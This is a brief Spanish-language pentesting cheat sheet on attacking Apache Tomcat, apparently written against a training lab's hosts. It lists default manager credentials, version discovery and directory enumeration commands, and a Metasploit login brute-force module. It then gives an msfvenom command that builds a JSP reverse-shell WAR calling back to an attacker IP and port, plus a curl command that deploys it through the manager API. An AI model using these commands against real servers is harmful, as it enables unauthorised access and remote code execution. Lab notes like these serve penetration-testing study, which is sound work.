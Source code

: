 #### Info
- Soporta aplicaciones en JAVA.
- Soporta JSP
- Utilizado por frameworks como Spring
- En la carpeta conf <tomcat-users.xml se encuentran las credenciales de los usuarios ;)
- Usuales contraseñas: tomcat:tomcat admin:admin

#### archivos importantes

- /opt/tomcat/conf/tomcat-users.xml 

#### Discovery
##### Versiones:
Si el server trabaja detrás de un reverse proxy podemos impulsar un error 404. Si la página está por defecto entonces nos dirá la versión

    http://app-dev.inlanefreight.local:8080/invalid

Otra forma es revisando el /docs:

    curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat 


#### Enumeration

    gobuster dir -u http://web01.inlanefreight.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt


### Attacking:

#### Brute-fotcing:
##### Metasploit

    auxiliary/scanner/http/tomcat_mgr_login


#### RCE

Podemos luego de entrar al manager conseguir rce subiendo una webshell .WAR

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
    

### Manager-script exploitation

1) creamos el file .war
2) subimos el archivo

        curl -v -u user:pass --upload-file pwn.war "http://x.x.x.x:8080/manager/text/deploy?path=/foo&update=true"

3) Iniciamos un listener
4) llamamos al script

        http://<ip_url>:8080/foo
